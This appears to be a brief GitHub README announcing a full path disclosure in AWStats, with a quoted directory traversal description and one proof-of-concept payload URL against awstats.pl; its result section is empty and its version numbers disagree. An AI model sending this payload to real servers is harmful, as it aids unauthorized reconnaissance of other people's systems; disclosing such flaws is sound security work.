# AWStatsFullPathDisclosure
Full Path Disclosure at AWStats 7.6 or minor versions

Directory traversal vulnerability in AWStats before 7.0 allows remote attackers to have an unspecified impact via a crafted LoadPlugin directory.	

PAYLOAD: awstats.pl?framename=mainright&update=123123123123

RESULT:
